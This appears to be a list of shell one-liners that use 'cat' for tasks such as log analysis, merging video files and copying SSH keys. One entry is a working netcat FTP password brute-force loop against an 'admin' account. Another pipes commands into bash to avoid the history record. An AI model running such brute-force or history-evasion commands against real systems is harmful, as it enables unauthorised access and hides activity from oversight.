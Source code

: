##### Quickly create simple text file from command line w/o using vi/emacs

   cat  > <file_name> << "EOF"

##### Quickly analyze apache logs for top 25 most common IP addresses.

   cat  $(ls -tr | tail -1) | awk '{ a[$1] += 1; } END { for(i in a) printf("%d, %s\n", a[i], i ); }' | sort -n  | tail -25

##### merge vob files to mpg

   cat  VTS_05_1.VOB VTS_05_2.VOB VTS_05_3.VOB VTS_05_4.VOB > mergedmovie.mpg

##### execute your commands and avoid history records

   cat  | bash

##### Compress blank lines

   cat  -s

##### concat multiple videos into one (and add an audio track)

   cat  frame/*.mpeg | ffmpeg -i $ID.mp3 -i - -f dvd -y track/$ID.mpg 2>/dev/null

##### Limit the transfer rate and size of data over a pipe

   cat  /dev/urandom | pv -L 3m | dd bs=1M count=100 iflag=fullblock > /dev/null

##### Netcat ftp brute force

   cat  list|while read lines;do echo "USER admin">ftp;echo "PASS $lines">>ftp;echo "QUIT">>ftp;nc 192.168.77.128 21 <ftp>ftp2;echo "trying: $lines";cat ftp2|grep "230">/dev/null;[ "$?" -eq "0" ]&& echo "pass: $lines" && break;done

##### Are there any words in the English language that use at least half of the alphabet without repeating any letters?

   cat  /usr/share/dict/words | egrep '^\w{13,}$' | egrep -iv '(\w).*\1'

##### Merge tarballs

   cat  1.tar.gz 2.tar.gz > 3.tar.gz; tar zxvfi 3.tar.gz

##### Copy your SSH public key on a remote machine for passwordless login.

   cat  ~/.ssh/*.pub | ssh user@remote-system 'umask 077; cat >>.ssh/authorized_keys'

##### Plot frequency distribution of words from files on a terminal.

   cat  *.c | { printf "se te du\nplot '-' t '' w dots\n"; tr '[[:upper:]]' '[[:lower:]]' | tr -s [[:punct:][:space:]] '\n' | sort | uniq -c | sort -nr | head -n 100 | awk '{print $1}END{print "e"}'; } | gnuplot
